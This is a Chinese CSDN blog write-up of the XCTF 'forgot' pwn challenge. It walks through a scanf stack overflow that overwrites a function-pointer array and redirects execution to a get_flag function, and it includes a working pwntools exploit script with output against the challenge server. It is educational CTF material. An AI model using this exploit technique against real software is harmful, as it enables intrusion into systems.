


<!--yml
category: 未分类
date: 2022-04-26 14:33:56
-->

# forgot [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列13_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103665009](https://blog.csdn.net/fastergohome/article/details/103665009)

题目地址：[forgot](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4703&page=1)

本题是高手进阶区的第二题，恭喜大家已经进入高手行列！好假好假，哈哈哈！

废话不说，看看题目先

这个题目有很长的描述，但是都是废话，不去管他了。

照例下载附件，做下安全检查

```
root@mypwn:/ctf/work/python/forgot# checksec 39d012d5bbc34295855136e9662a5392 
[*] '/ctf/work/python/forgot/39d012d5bbc34295855136e9662a5392'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

好的，没有什么问题，只有启动NX。

那我们就可以先用ida反编译

左边的函数看起来超多，不过毛主席说过“一切敌人都是纸老虎！”，我们向着困难前进。

分析过后发现真的都是纸老虎，哈哈！😄

我挑出来两个重要函数，给大家展示一下，已经对变量函数做过重命名了。

```
int __cdecl main()
{
  size_t nIndexCurrent; // ebx
  char szInputString[32]; // [esp+10h] [ebp-74h]
  int (*ptrFunction_1)(); // [esp+30h] [ebp-54h]
  int (*ptrFunction_2)(); // [esp+34h] [ebp-50h]
  int (*ptrFunction_3)(); // [esp+38h] [ebp-4Ch]
  int (*ptrFunction_4)(); // [esp+3Ch] [ebp-48h]
  int (*ptrFunction_5)(); // [esp+40h] [ebp-44h]
  int (*ptrFunction_6)(); // [esp+44h] [ebp-40h]
  int (*ptrFunction_7)(); // [esp+48h] [ebp-3Ch]
  int (*ptrFunction_8)(); // [esp+4Ch] [ebp-38h]
  int (*ptrFunction_9)(); // [esp+50h] [ebp-34h]
  int (*ptrFunction_a)(); // [esp+54h] [ebp-30h]
  char szName; // [esp+58h] [ebp-2Ch]
  int nChoice; // [esp+78h] [ebp-Ch]
  size_t i; // [esp+7Ch] [ebp-8h]

  nChoice = 1;
  ptrFunction_1 = fun_1;
  ptrFunction_2 = fun_2;
  ptrFunction_3 = fun_3;
  ptrFunction_4 = fun_4;
  ptrFunction_5 = fun_5;
  ptrFunction_6 = fun_6;
  ptrFunction_7 = fun_7;
  ptrFunction_8 = fun_8;
  ptrFunction_9 = fun_9;
  ptrFunction_a = fun_a;
  puts("What is your name?");
  printf("> ");
  fflush(stdout);
  fgets(&szName, 32, stdin);
  welcome_message((int)&szName);
  fflush(stdout);
  printf("I should give you a pointer perhaps. Here: %x\n\n", fun_5);
  fflush(stdout);
  puts("Enter the string to be validate");
  printf("> ");
  fflush(stdout);
  __isoc99_scanf("%s", szInputString);
  for ( i = 0; ; ++i )
  {
    nIndexCurrent = i;
    if ( nIndexCurrent >= strlen(szInputString) )
      break;
    switch ( nChoice )
    {
      case 1:
        if ( is_ll_num_ul_2(szInputString[i]) )
          nChoice = 2;
        break;
      case 2:
        if ( szInputString[i] == 64 )
          nChoice = 3;
        break;
      case 3:
        if ( is_ll_num_ul(szInputString[i]) )
          nChoice = 4;
        break;
      case 4:
        if ( szInputString[i] == 46 )
          nChoice = 5;
        break;
      case 5:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 6;
        break;
      case 6:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 7;
        break;
      case 7:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 8;
        break;
      case 8:
        if ( is_l_letter(szInputString[i]) )
          nChoice = 9;
        break;
      case 9:
        nChoice = 10;
        break;
      default:
        continue;
    }
  }
  (*(&ptrFunction_1 + --nChoice))();
  return fflush(stdout);
}

int get_flag()
{
  char s; // [esp+1Eh] [ebp-3Ah]

  snprintf(&s, 0x32u, "cat %s", "./flag");
  return system(&s);
}
```

对，你没有看错，其他的函数都没啥用处，存粹是装饰的！只有main和get_flag。

这个题目最重要的两个点就是：

1.  __isoc99_scanf("%s", szInputString);
2.  (*(&ptrFunction_1 + --nChoice))();

第一句可以溢出，第二句是执行的调用。

我先把main中的那一堆函数给大家展示一下：

```
 int (*ptrFunction_1)(); // [esp+30h] [ebp-54h]
  int (*ptrFunction_2)(); // [esp+34h] [ebp-50h]
  int (*ptrFunction_3)(); // [esp+38h] [ebp-4Ch]
  int (*ptrFunction_4)(); // [esp+3Ch] [ebp-48h]
  int (*ptrFunction_5)(); // [esp+40h] [ebp-44h]
  int (*ptrFunction_6)(); // [esp+44h] [ebp-40h]
  int (*ptrFunction_7)(); // [esp+48h] [ebp-3Ch]
  int (*ptrFunction_8)(); // [esp+4Ch] [ebp-38h]
  int (*ptrFunction_9)(); // [esp+50h] [ebp-34h]
  int (*ptrFunction_a)(); // [esp+54h] [ebp-30h]

  ptrFunction_1 = fun_1;
  ptrFunction_2 = fun_2;
  ptrFunction_3 = fun_3;
  ptrFunction_4 = fun_4;
  ptrFunction_5 = fun_5;
  ptrFunction_6 = fun_6;
  ptrFunction_7 = fun_7;
  ptrFunction_8 = fun_8;
  ptrFunction_9 = fun_9;
  ptrFunction_a = fun_a;
```

这一堆函数，组成了一个函数数组，改下大家容易看的更懂：

```
int (*ptrFunction[10]) () = {
  fun_1, fun_2, fun_3, fun_4, fun_5, fun_6, fun_7, fun_8, fun_9, fun_a
} 
```

这样的话，最后一句

```
(*(&ptrFunction_1 + --nChoice))();
```

就可以改写成

```
ptrFunction[--nChoice]();
```

所以我们只需要通过szInputString的输入溢出到ptrFunction，就可以覆盖ptrFunction的函数调用地址，覆盖的地址用get_flag的地址，就可以直接拿到flag。

所以就没问题了，接下来就先构造一下paload：

```
get_flag = 0x080486CC
payload = 'A' * 0x20 + p32(get_flag)
```

注意这里不能用小写字符a，因为程序会判断是否是小写就会改写nChoice的值，那就不会调用函数数组的第一个元素了。

所以根据payload，我们编写python代码如下：

```
#coding:utf8

from pwn import *

process_name = './39d012d5bbc34295855136e9662a5392'
p = process(process_name)
# p = remote('111.198.29.45', 39908)

get_flag = 0x080486CC
payload = 'A' * 0x20 + p32(get_flag)

p.sendlineafter('What is your name?\n> ', 'aaa')
p.sendlineafter('> ', payload)
p.interactive()
```

执行之后的结果如下：

```
root@mypwn:/ctf/work/python/forgot# python forgot.py 
[+] Starting local process './39d012d5bbc34295855136e9662a5392': pid 105
[*] Switching to interactive mode
cat: ./flag[*] Process './39d012d5bbc34295855136e9662a5392' stopped with exit code 0 (pid 105)
: No such file or directory
[*] Got EOF while reading in interactive
$ 
```

我们看到是执行成功了，已经转入到了get_flag函数中了，那我们就修改一下，发送到服务器看看情况：

```
root@mypwn:/ctf/work/python/forgot# python forgot.py 
[+] Opening connection to 111.198.29.45 on port 39908: Done
[*] Switching to interactive mode
cyberpeace{cca7a7963faa8f8b3718b2394bb18cf4}
[*] Got EOF while reading in interactive
$ 
```

好的，没有问题，已经取得了flag。

这个题目与其说是考漏洞，不如说是考c语言，主要考的知识点是函数指针数组在汇编语言中的表现形式。